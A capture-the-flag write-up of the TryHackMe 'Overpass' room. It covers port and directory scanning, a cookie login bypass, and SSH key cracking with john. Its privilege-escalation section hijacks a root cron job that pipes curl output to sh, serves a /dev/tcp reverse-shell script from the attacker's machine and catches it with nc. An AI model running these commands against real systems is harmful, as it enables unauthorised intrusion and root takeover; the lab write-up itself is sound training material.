








# Overpass (TryHackMe)

## Network Scan

First things first, I want to take a look at open ports on the machine.

```bash
sudo nmap -sV -vv <machine-ip>
```



There are two open ports on the machine. And there is no valuable information. And I have decided to scan the website.

## Web Directory Scan

```bash
gobuster dir -u http://<machine-ip> -w /usr/share/wordlists/dirb/common.txt
```



That's a BİNGO! I've found the /admin directory. And when I did look
at the page source and I noticed there is login.js. When I did take a look, I've found a login bypass vulnerability.

## Login Bypass



The vulnerability allows for login bypass by creating a cookie
**"SessionToken"**. After that, when I get the /admin page. I am
encountering the **id_rsa key** and the name **james** on the page. I am using
ssh2john, crack the phrase for the id_rsa. And I login to SSH with the
username james.

## ID_RSA & SSH Login

```bash
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt
```



```bash
ssh james@machineIP -i id_rsa

```

## Privilege Escalation

And I find the user txt. And now we have to perform privilege
escalation to reach root flag. Firstly, I am trying to look at **_sudo
-l_**, but it does not seem like there is any significant. But when I
looking into **_/etc/crontab_** I found a job.

```bash
curl overpass.thm/downloads/src/buildscript.sh | sh
```

And we'll use this. And I decided to pretend like be overpassthm.



And I created the same directory in ***my local machine***. I create a
buildscriptsh that has reverse shell. I did edit ***my local /etc/hosts*** file to
make successful connection. And I start to listen to the connection.

```bash
nano buildscript.sh
```

```bash
#!/bin/bash
sh -i >& /dev/tcp/<your-machine-ip>/1234 0>&1
```



```bash
sudo python3 -m http.server 80
```




```bash
nc -lvp 1234
```



